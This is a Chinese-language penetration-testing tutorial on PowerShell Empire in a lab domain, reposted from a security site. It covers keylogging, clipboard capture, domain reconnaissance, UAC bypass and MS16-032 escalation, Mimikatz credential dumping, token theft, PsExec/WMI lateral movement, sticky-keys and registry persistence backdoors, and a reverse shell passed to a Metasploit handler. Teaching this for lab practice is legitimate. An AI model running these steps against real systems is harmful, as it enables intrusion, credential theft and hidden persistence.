一篇文章精通PowerShell Empire 2.3（下）


0×05. 信息收集
Empire主要用于后渗透。所以信息收集是比较常用的一个模块，我们可以使用searchmodule命令搜索需要使用的模块，这里通过键入“usemodule collection”然后按Tab键来查看完整列表，如下图所示。

这里我们演示几个常用模块:
1.屏幕截图
输入usemodule collection/screenshot，info命令可以查看具体参数，如下图所示。

不需要做多余设置，直接execute可以看到目标主机屏幕截图。


2.键盘记录
输入usemodule collection/keylogger，info命令可以查看具体参数，如下图所示。

设置保持默认就可以，我们输入execute启动，就开启记录键盘输入了，会自动在empire/downloads/<AgentName>下生成一个agent.log，如下图所示。

这里我们在虚拟机打开一个记事本随便输入一些文字。如下图所示。

我们打开agent.log可以看到在我们的监控端已经全部记录下来了，虽然不能记录中文，但是大概意思我们还是能看出来的，标点符号也记录了下来，相对来说还是记录英文比较好，如下图所示。

如果我们要持续进行键盘记录，可以把当前监控模块置于后台，输入jobs会显示当前在后台的记录，如果要终止一个记录，可以使用jobs kill JOB_name，这里可以输入jobs kill N7XE38即可停止键盘记录，如下图所示。

3.剪贴板记录
这个模块允许你抓取存储在目标主机Windows剪贴板上的任何内容。模块参数可以设置抓取限制和间隔时间，一般情况下，保持默认设置就可以，这里我们输入usemodule collection/clipboard_monitor，同样info命令可以查看具体参数，如下图所示。

我们在目标主机随便COPY一句话，可以看到屏幕已经有结果了，速度还是很快的，如下图所示。

同样当前监控模块也可以置于后台，输入jobs会显示当前在后台的记录，如果要终止话同样输入jobs kill JOB_name，如下图所示。

4.查找共享
输入usemodule situational_awareness/network/powerview/share_finder 命令将会列出域内所有的共享，可以设置CheckShareAccess选项将只返回可从当前用户上下文中读取的共享，这里保持默认，如下图所示。

5.收集目标主机有用的信息
输入命令usemodule situational_awareness/host/winenum，可以查看本机用户，域组成员，最后密码设置时间，剪贴板内容，系统基本系统信息，网络适配器信息，共享信息等等，如下图所示。


另外还有situational_awareness/host/computerdetails模块，列举了系统中的基本所有有用信息。显示目标主机事件日志，应用程序控制策略日志，包括RDP登陆信息，Powershell 脚本运行和保存的信息等等。运行这个模块的时候需要管理权限，大家可以试一下。
6.ARP扫描
Empire也内置arp扫描模块，输入usemodule situational_awareness/network/arpscan
命令使用该模块，输入info命令查看具体参数，如下图所示。

这里要设置一下Range参数，输入下列命令设置为要扫描的网段，如下图所示。
set Range 192.168.31.0-192.168.31.254
execute
同样Empire也内置了端口扫描模块， situational_awareness/network/portscan这里就不演示了。
7.DNS信息获取
在内网中，知道所有机器的HostName和对应的IP地址对分析内网结构至关重要，输入usemodule situational_awareness/network/reverse_dns命令使用该模块，输入info命令查看具体参数，如下图所示。

这里要设置一下Range参数，输入你要扫描的IP网段运行，如下图所示。

如果该主机同时有2个网卡，Empire也会显示出来，方便我们寻找边界主机。
另一个模块模块situational_awareness/host/dnsserver，可以显示出当前内网DNS服务器IP地址，如下图所示。

8.查找域管登陆服务器IP
在内网渗透中，拿到内网中某一台机器，想要获得域管权限，有一种方法是找到域管登陆的机器，然后横向渗透进去，窃取域管权限，从而拿下整个域，这个模块就是用来查找域管登陆的机器。
使用模块usemodule situational_awareness/network/powerview/user_hunter，输入info查看设置参数，如下图所示。

这个模块可以清楚看到哪个用户登录了哪台主机，结果显示域管曾经登录过机器名为WIN7-64.shuteer.testlab,IP地址为192.168.31.251的这台机器上。如下图所示。

9.本地管理组访问模块
使用usemodule situational_awareness/network/powerview/find_localadmin_access模块，不需要做什么设置，直接运行execute即可，结果如下图所示。

可以看到有2台计算机，名字分别为：
WIN7-64.shuteer.testlab
WIN7-X86.shuteer.testlab
10.获取域控制器
现在可以用usemodulesituational_awareness/network/powerview/get_domain_controller模块来确定我们当前的域控制器，因为我们有了域用户权限，输入execute，如下图所示。

当前域服务器名为DC。
我们再验证下能否访问域服务器DC的“C$”，同样顺利访问，如下图所示。

0×06. 提权
Windows在Vista系统开始引入UAC账户控制体系，分为三个级别：
高:完整的管理员权限
中：标准用户权限
低：很低的权限
即使当前用户是本地管理员，双击运行大部分应用程序时也是以标准用户权限运行的(除非右击-选择以管理员身份运行)。所以即使我们获得的权限是本地管理员权限，也没有办法执行一些命令（特殊注册表写入、LSASS读取/写入等等），所以渗透的第一步便是提权，提权的前提便是知道自己拥有什么权限，可以输入一下命令来查询：
Whoami /groups
这个命令会输出我当前用户所属的组和所拥有的权限，显示High Mandatory Level表示拥有管理员权限，显示Medium Mandatory Level表示拥有一个标准用户权限，这里我们是一个标准用户权限，如下图所示。

1.bypassuac
输入usemodule privesc/bypassuac，设置Listener参数，运行execute，上线了一个新的反弹，如下图所示。

这里我们回到agents下面，输入list命令，可以看到多了一个agents，带星号的即为提权成功的，如下图所示。

2. bypassuac_wscript
这个模块大概原理是使用c:Windowswscript.exe执行payload，实现管理员权限执行payload，绕过UAC。只适用于系统为Windows 7，目前尚没有对应补丁，部分杀毒软件会有提示。如下图所示，带型号的即为提权成功的。

3. ms16-032
Empire自带了MS16-032 (KB3124280) 模块，输入usemodule privesc/ms16-032，只需要设置下Listener，运行提权成功，如下图所示。

除了ms16-032，Empire还带了ms16-135(KB3198234)模块，使用方法一样，在测试中，WIN764位系统出现了蓝屏，请谨慎使用。如下图所示。

4.PowerUp
Empire内置了PowerUp部分工具，用于系统提权，主要为Windows错误系统配置漏洞，Windows Services漏洞，AlwaysInstallElevated漏洞等8种提权方式，输入“usemodule privesc/powerup”然后按Tab键来查看完整列表，如下图所示。

4.1 AllChecks模块
如何查找上述漏洞，就要用到这个模块了。和Powersploit下powerup中的Invoke-AllChecks模块一样，该模块可以执行所有脚本检查系统漏洞，输入下列命令，如下图所示。
usemodule privesc/powerup/allchecks
execute

可以看到，他列出了很多方法，我们可以尝试用第一种方法bypassuac来提权，提权之前我们看下当前agents，可以看到只有一个普通权限，Name为CD3FRRYCFVTYXN3S，IP为192.168.31.251的客户端，如下图所示。
接着我们输入bypassuac test来提权，等几秒钟，就会给我们返回一个更高权限的shell，如下图所示


我们再次输入agents命令来查看当前agents，可以看到多了一个高权限（带星号）Name为341CNFUFK3PKUDML的客户端，如下图所示，提权成功。
4.2模块使用说明
官方说明如下：
l 对于任何没有引号的服务路径问题
l 对于ACL配置错误的任何服务（可通过service_ *利用 ）
l 服务可执行文件上的任何不当权限（可通过service_exe_ *进行利用）
l 对于任何剩余的unattend.xml文件
l 如果AlwaysInstallElevated注册表项设置
l 如果有任何Autologon凭证留在注册表中
l 用于任何加密的web.config字符串和应用程序池密码
l 对于任何％PATH％.DLL劫持机会（可通过write_dllhijacker利用）
具体使用方法可参见我之间几篇文章：
A.Metasploit、powershell之Windows错误系统配置漏洞实战提权
http://www.freebuf.com/articles/system/131388.html
B.metasploit之Windows Services漏洞提权实战
http://www.4hou.com/technology/4180.html
C.Metasploit、Powershell之AlwaysInstallElevated提权实战
https://xianzhi.aliyun.com/forum/read/1488.html
5.GPP
在域里面很多都会启用组策略首选项来执行本地密码更改，以便于管理和映像部署。缺点是任何普通域用户都可以从相关域控制器的SYSVOL中读取到部署信息。虽然他是采用AES 256加密的，使用usemodule privesc/gpp ，如下图所示。
0×07. 横向渗透
1.令牌窃取
我们在获取到服务器权限后，可以使用内置mimikatz获取系统密码，执行完毕后输入creds命令查看Empire列举的密码。如下图所示。
发现有域用户在此服务器上登陆，此时我们可以窃取域用户身份，然后进行横向移动，首先先来窃取身份，使用命令pth<ID>，这里的ID号就是creds下的CredID号，我们这里来窃取administrator的身份令牌，执行Pth 7命令，如下图所示。
可以看到进程号为1380，使用steal_token PID命令就窃取了该身份令牌了，如下图所示。
同样我们也可以在通过PS命令查看当前进程，查看是否有域用户的进程，如下图所示。
可以看到有域用户的进程，这里我们选用同一个Name为CMD，PID为1380的进程，如下图所示。
同样通过steal_token命令来窃取这个命令，我们先尝试访问域内另一台主机WIN7-X86的“C$”，顺利访问，如下图所示。
输入revtoself命令可以将令牌权限恢复到原来的状态，如下图所示：2.会话注入我们也可以使用usemodule management/psinject模块来进程注入，获取权限，输入info查看参数设置，如下图所示。
设置下Listeners和ProcID这2个参数，这里的ProcID还是之前的CMD的1380，运行后反弹回一个域用户权限shell，如下图所示。

3.Invoke-PsExec
PsExec是我在Metasploit下经常使用的模块，还有pstools工具包当中也有psexec，缺点是该工具基本杀毒软件都能检测到，并会留下日志，而且需要开启admin$ 445端口共享。优点是可以直接返回SYSTEM权限。这里我们要演示的是Empire下的Invoke-Psexec模块。
使用该模块的前提是我们已经获得本地管理员权限，甚至域管理员账户，然后以此来进一步持续渗透整个内网。
我们测试该模块前看下当前agents，只有一个IP为192.168.31.251，机器名为WIN7-64的服务器，如下图所示。

现在使用模块usemodule lateral_movement/invoke_psexec渗透域内另一台机器WIN7-X86，输入info查看设置参数，如下图所示。

这里要设置下机器名和监听，输入下列命令，反弹成功。如下图所示。
Set ComputerName WIN7-X86.shuteer.testlab
Set Listenershuteer
Execute

输入agents命令查看当前agents，多了一个IP为192.168.31.158，机器名为WIN7-X86的服务器，如下图所示。

4.Invoke-WMI
它比PsExec安全，所有window系统启用该服务，当攻击者使用wmiexec来进行攻击时，Windows系统默认不会在日志中记录这些操作，这意味着可以做到攻击无日志，同时攻击脚本无需写入到磁盘，具有极高的隐蔽性。但防火墙开启将会无法连接。输入usemodule lateral_movement/invoke_wmi，使用该模块，输入info命令查看具体参数，如下图所示。

这里一样需要设置下机器名和监听，输入下列命令，执行execute命令反弹成功。如下图所示。
Set ComputerName WIN7-X86.shuteer.testlab
Set Listener shuteer
Execute
WMI还有一个usemodule lateral_movement/invoke_wmi_debugger模块，是使用WMI去设置五个Windows Accessibility可执行文件中任意一个的调试器。这些可执行文件包括sethc.exe（粘滞键，五下shift可触发），narrator.exe（文本转语音，Utilman接口激活）、Utilman.exe（windows辅助管理器，Win+U启用），Osk.exe（虚拟键盘，Utilman接口启用）、Magnify.exe（放大镜，Utilman接口启用）。大家也可以尝试一下。
5.Powershell Remoting
PowerShell remoting是Powershell的远程管理功能，开启Windows远程管理服务WinRM会监听5985端口，该服务默认在Windows Server 2012中是启动的，在Windows Server 2003、2008和2008 R2需要通过手动启动。
如果目标主机启用了PSRemoting，或者拥有启用它的权限的凭据，则可以使用他来进行横向渗透，使用usemodule lateral_movement/invoke_psremoting模块，如下图所示。
0×08. 后门
1.权限持久性劫持shift后门
输入命令usemodule lateral_movement/invoke_wmi_debuggerinfo模块，输入info查看设置参数，如下图所示。
这里需要设置几个参数，我们输入下面命令，如下图所示。
set Listener shuteer
set ComputerName WIN7-64.shuteer.testlab
set TargetBinary sethc.exe
execute运行后，在目标主机远程登录窗口按5次shift即可触发后门，有一个黑框一闪而过，如下图所示。
这里看我们的Empire已经有反弹代理上线，这里为了截图我按了3回shift后门，所以弹回来3个代理，如下图所示。
注意：sethc.exe这里有几个可以替换的选项。
A.Utilman.exe（快捷键为: Win + U）
B.osk.exe（屏幕上的键盘Win + U启动再选择）
C.Narrator.exe (启动讲述人Win + U启动再选择)
D.Magnify.exe(放大镜Win + U启动再选择）
2.注册表注入后门
使用usemodule persistence/userland/registry模块，运行后会在目标主机启动项添加一个命令，按如下命令设置其中几个参数，如下图所示。
set Listener shuteer
set RegPath HKCU:SoftwareMicrosoftWindowsCurrentVersionRun
execute运行后当我们登陆系统时候就会运行，反弹回来，如下图所示。
我们去目标机主机看看启动项下面有没有添加东西，竟然没有，真是厉害，如下图所示。
3.计划任务获得系统权限
输入usemodule persistence/elevated/schtasks，使用该模块，输入info命令查看具体参数，如下图所示。在实际渗透中，运行该模块时杀软会有提示。
这里要设置DailyTime，Listener这2个参数，输入下列命令，设置完后输入execute命令运行，等设置的时间到后，成功返回一个高权限的shell，如下图所示。
Set DailyTime 16:17
Set Listener
testexecute我们输入agents命令来查看当前agents，可以看到又多了一个SYSTEM权限Name为LTVZB4WDDTSTLCGL的客户端，如下图所示，提权成功。
这里如果把set RegPath 的参数改为HKCU:SOFTWAREMicrosoftWindowsCurrentVersionRun，那么就会在16：17分添加一个注册表注入后门，大家可以练习一下。
0×09. Empire反弹回Metasploit
实际渗透中，当拿到webshell上传的MSF客户端无法绕过目标机杀软时，可以使用powershell来绕过也可以执行Empire的payload来绕过，成功之后再使用Empire的模块将其反弹回Metasploit。
这里使用usemodule code_execution/invoke_shellcode模块，输入info看下参数，如下图所示。
这里修改2个参数，Lhost和Lport，Lhost修改为msf所在主机ip，按下列命令设置完毕，如下图所示。
Set Lhost 192.168.31.247
Set Lport 4444在MSF上设置监听，命令如下，运行后，就可以收到Empire反弹回来的shell了，如下图所示。
Use exploit/multi/handler
Set payloadwindows/meterpreter/reverse_https
Set Lhost 192.168.31.247
Set lport 4444Run
文章转载自：安全客，作者：shuteer